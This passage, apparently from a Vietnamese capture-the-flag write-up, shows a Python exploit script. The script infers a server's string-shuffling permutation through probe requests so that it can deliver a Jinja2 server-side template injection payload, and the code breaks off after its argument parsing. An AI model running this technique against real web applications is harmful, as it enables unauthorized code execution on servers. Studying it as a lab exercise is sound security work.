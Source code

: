 ## Khai thác

Để gửi preimage cho payload SSTI thì mình dùng script này, sau khi chuyển thành chuỗi preimage thì sẽ gửi lên server để server thực thi payload và trả về output:

```python
import re, math, argparse, requests

def shuffled_of(api, probe: str) -> str:
    r = requests.get(api, params={"attack_name": probe})
    j = r.json()
    m = re.search(r"No magic name (.+?) here", j.get("error",""))
    if not m:
        raise RuntimeError(j.get("error", j))
    return m.group(1)

ALPH = "_0123456789"

def build_probe(n: int, k: int) -> str:
    arr = [ALPH[(i // (10**k)) % 10 + 1] for i in range(n)]
    if n > 0:
        arr[0] = "_"
    return ''.join(arr)

def infer_perm(api, n: int):
    if n <= 1:
        return list(range(n))
    m = math.ceil(math.log10(n))
    probes = [build_probe(n, k) for k in range(m)]
    outs = [shuffled_of(api, p) for p in probes]
    perm = [None]*n
    for newpos in range(n):
        i, zero = 0, True
        for k in range(m):
            ch = outs[k][newpos]
            if ch != "_":
                zero = False
                digit = ALPH.index(ch) - 1
                i += digit * (10**k)
        if zero:
            i = 0
        if i >= n:
            i %= n
        perm[i] = newpos
    if any(v is None for v in perm):
        raise RuntimeError("perm inference failed")
    return perm

def preimage(api, target: str) -> str:
    perm = infer_perm(api, len(target))
    return ''.join(target[j] for j in perm)

def send(api, target: str):
    s = preimage(api, target)
    r = requests.get(api, params={"attack_name": s})
    return s, r.json().get("error","")

if __name__ == "__main__":
    ap = argparse.ArgumentParser()
    ap.add_argument("--base", default="http://127.0.0.1:51412", help="http://host:port")
    ap.add_argument("--expr", default="{{70-21}}", help="Jinja2 payload đích")
    ap.add_argument("--dry", action="store_true", help="Chỉ in preimage, không gửi")
    args = ap.parse_args()

```